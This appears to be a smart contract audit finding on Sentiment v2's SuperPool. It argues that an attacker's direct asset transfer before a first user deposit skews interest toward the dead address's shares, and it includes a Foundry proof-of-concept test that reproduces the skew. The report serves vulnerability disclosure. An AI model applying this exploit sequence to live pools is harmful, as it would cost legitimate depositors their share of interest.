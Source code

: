 Tricky Eggshell Cobra

High

# Attacker Can Manipulate Interest Distribution by Exploiting Asset Transfers and Fee Accrual Mechanism

## Summary

 Attacker can take advantage of the SuperPool's interest system. By depositing a large amount of assets before a regular user does, the attacker can make the "dead" address receive a lot more interest than it should. This unfairly benefits the dead address and disadvantages other users. The issue is caused by how the system calculates and gives out fees and interest.

## Vulnerability Detail

The vulnerability arises from the fact that an attacker can send a significant amount of assets to the SuperPool before a deposit is made by a regular user. This results in a disproportionate amount of interest being allocated to shares owned by the dead address, which was included during the initialization of the SuperPool. The specific sequence of operations allows the dead address to accumulate a substantial amount of interest due to the way fee shares are calculated and allocated.

## Impact

The primary impact is that the dead address can accumulate a large portion of the total interest accrued by the SuperPool, resulting in:
- Unequal distribution of accrued interest among stakeholders.
- Potential financial loss for legitimate users, as their share of the interest is reduced in favor of the dead address.

## Code Snippet
```solidity
function simulateAccrue() internal view returns (uint256, uint256) {
        uint256 newTotalAssets = totalAssets();
        uint256 interestAccrued = (newTotalAssets > lastTotalAssets) ? newTotalAssets - lastTotalAssets : 0;
        if (interestAccrued == 0 || fee == 0) return (0, newTotalAssets);

        uint256 feeAssets = interestAccrued.mulDiv(fee, WAD);
        // newTotalAssets already includes feeAssets
        uint256 feeShares = _convertToShares(feeAssets, newTotalAssets - feeAssets, totalSupply(), Math.Rounding.Down);

        return (feeShares, newTotalAssets);
    }
```

[LINK](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPool.sol#L653C1-L663C6)

## Coded POC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "../BaseTest.t.sol";
import {console2} from "forge-std/console2.sol";
import {FixedPriceOracle} from "src/oracle/FixedPriceOracle.sol";

contract SuperPoolUnitTests is BaseTest {
    uint256 initialDepositAmt = 1000;

    Pool pool;
    Registry registry;
    SuperPool superPool;
    RiskEngine riskEngine;
    SuperPoolFactory superPoolFactory;
    address user_1 = makeAddr("User_1");

    address attacker = makeAddr("Attacker");

    address public feeTo = makeAddr("FeeTo");

    function setUp() public override {
        super.setUp();

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        superPoolFactory = protocol.superPoolFactory();

        FixedPriceOracle asset1Oracle = new FixedPriceOracle(1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));
    }

    function test_interest_manipulation_WITH_BUG() public {
        address feeRecipient = makeAddr("FeeRecipient");

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);

        address deployed = superPoolFactory.deploySuperPool(
            poolOwner,
            address(asset1),
            feeRecipient,
            1e17,
            type(uint256).max,
            initialDepositAmt,
            "test",
            "test"
        );
        superPool = SuperPool(deployed);
        /*//////////////////////////////////////////////////////////////
                     ATTACKER SENDING FUNDS TO SUPERPOOL
        //////////////////////////////////////////////////////////////*/

        vm.startPrank(attacker);
        asset1.mint(attacker, 1e18);
        asset1.transfer(address(superPool), 1e18);
        vm.stopPrank();

        /*//////////////////////////////////////////////////////////////
                     user_1 DEPOSITNG TO SUPERPOOL
        //////////////////////////////////////////////////////////////*/

        vm.startPrank(user_1);
        asset1.mint(user_1, 1e18);

        asset1.approve(address(superPool), type(uint256).max);

        superPool.deposit(1e18, user_1);
        vm.stopPrank();
        console2.log(
            "SuperPool(SHARES) Balance of User1: ",
            superPool.balanceOf(user_1)
        );
        console2.log(
            "SuperPool(SHARES) Balance of FeeRecipient: ",
            superPool.balanceOf(feeRecipient)
        );
        
        /*//////////////////////////////////////////////////////////////
                           NOW SUPERPOOL ACCUMATES INTEREST
        //////////////////////////////////////////////////////////////*/
        asset1.mint(address(superPool), 0.5e18);
        superPool.accrue();
        uint SHARES_OF_DEAD_ADDRESS = superPool.balanceOf(0x000000000000000000000000000000000000dEaD);
        console2.log(
            "SuperPool(SHARES) Balance of FeeRecipient: ",
            superPool.balanceOf(feeRecipient)
        );
        console2.log(
            " assest1 balance of superpool: ",
            asset1.balanceOf(address(superPool))
        );

        console2.log("SuperPool(SHARES) Total Supply: ", superPool.totalSupply());

        console2.log("Preview Mint for User1: ", superPool.previewMint(1111));
        console2.log(
            "Preview Mint for FeeRecipient: ",
            superPool.previewMint(156)
        );
        console2.log("Preview Mint for dead: ", superPool.previewMint(1000));
        // assert that the preview mint for dead is greater than the 40% of the total supply of superpool asset1
        assert(
            superPool.previewMint(SHARES_OF_DEAD_ADDRESS) >
                (superPool.totalSupply() * 0.4e18) / 1e18
        );
    }
}

```

## Tool used

Manual Review

## Recommendation

Limit Dead Address Shares during interest calculation